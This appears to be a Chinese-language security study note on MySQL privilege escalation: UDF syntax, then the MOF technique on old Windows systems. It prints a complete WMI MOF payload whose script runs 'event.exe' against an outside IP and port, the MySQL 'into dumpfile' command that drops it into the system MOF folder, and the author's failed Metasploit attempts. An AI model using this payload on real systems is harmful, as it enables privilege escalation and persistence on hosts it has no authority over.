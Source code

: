 # UDF提权

## 简介

MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对MySQL进行一些扩展。幸运的是，MySQL给使用者提供了添加新函数的机制，这种使用者自行添加的MySQL函数就称为**UDF(User Define Function)**。其实除了UDF外，使用者还可以将函数添加为MySQL的固有（内建）函数，固有函数被编译进mysqld服务器中，使其永久可用。

**查看组件安装位置**

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210828220059.png)

> 题外话：[phpadmin忘记密码后重置密码](https://m.php.cn/tool/phpmyadmin/441404.html)，重置之后使用`net start mysql`命令重启MySQL。



## UDF的特性

* 可以自定义函数功能
* 可以自定义函数返回值



## 相关语法

**创建UDF**

```sql
CREATE FUNCTION function_name(parameter_nametype,[parameter_name type,...])
RETURNS {STRING|INTEGER|REAL};
```

上面的意思是创建一个聚合或者是非聚合的函数，sql中调用的名称是function_name，返回类型是{STRING|INTEGER|REAL}其中的一种。

```sql
CREATE [AGGREGATE] FUNCTION function_name RETURNS {STRING|INTEGER|REAL} SONAME 'shared_library_name';
```

上面除了创建函数外，还生成动态链接库，shared_library_name是生成的动态链接库的名称。

创建成功后会从MySQL服务器的mysql数据库的func表中找到对应的一条记录的添加。

**查看UDF**

```sql
SHOW CREATE FUNCTION function_name;
```

**删除UDF**

```sql
DROP FUNCTION function_name;
```



# MOF提权

**什么是MOF？**

托管对象格式（MOF）文件是创建和注册提供程序、事件类别和事件的简便方法。在Windows系统的`c:/windows/system32/wbem/mof/nullevt.mof`目录下，其作用是每隔五秒就会去监控进程创建和死亡。

在MOF文件中创建类实例和类定义后，可以对该文件进行编译。编译MOF文件将在CIM储存库中注册所有的类定义和实例。之后，提供程序、事件类别和事件信息便可由WMI和Visual Studio Analyzer使用。 在MOF文件中创建提供程序、事件类别和事件类的实例，并且定义想要分析的自定义对象，之后，就可以对该文件进行编译。

**mof提权的原理**

当MySQL获取到root权限后，通过MySQL将该文件写入到指定路径下，以达到提权的效果。隔了一定时间以后这个MOF就会被执行，这个MOF当中有一段是vbs脚本，这个vbs脚本的内容大多数的是添加管理员用户或权限的命令。

nullevt.mof脚本源码

```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText = 
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"event.exe 85.25.67.37 12346\")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

```mysql
select load_file('C:\Inetpub\wwwroot\www.demoasp.com\nullevt.mof') into dumpfile "C:\Windows\System32\wbem\MOF\nullevt.mof"
```

通过手动执行该命令发现老是报错`Can't create/write to file`，使用极端的办法将该目录授权为everyone可读写，依然报错。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210829202650.png)

转而使用msf来尝试，发现还是同样的报错。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210829202553.png)

```
[-] 192.168.50.75:3306 - MySQL Error: RbMysql::ServerError Can't create/write to file 'C:\windows\system32\ALJiU.exe' (Errcode: 13)
[*] 192.168.50.75:3306 - Uploading to 'C:/windows/system32/wbem/mof/eoaMG.mof'
[-] 192.168.50.75:3306 - MySQL Error: RbMysql::ServerError Can't create/write to file 'C:\windows\system32\wbem\mof\eoaMG.mof' (Errcode: 2)
```



## 总结

MySQL 5.7开始默认使用secure-file-priv选项，不能随意选择导出路径，所以mof提权仅适用于以下条件：

* 操作系统版本低于 win 2008

* 数据库为 MySQL < 5.7且知道登录账号密码并且允许外连

总结来说就是当前root账户可以复制文件到`%SystemRoot%\System32\wbem\MOF`目录下。



吐槽：数据库版本和系统版本都符合要求，为什么还是没有成功，看来只能再向大佬求助了。

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210829203720.png)

![](https://borinboy.oss-cn-shanghai.aliyuncs.com/huan20210829204047.png)
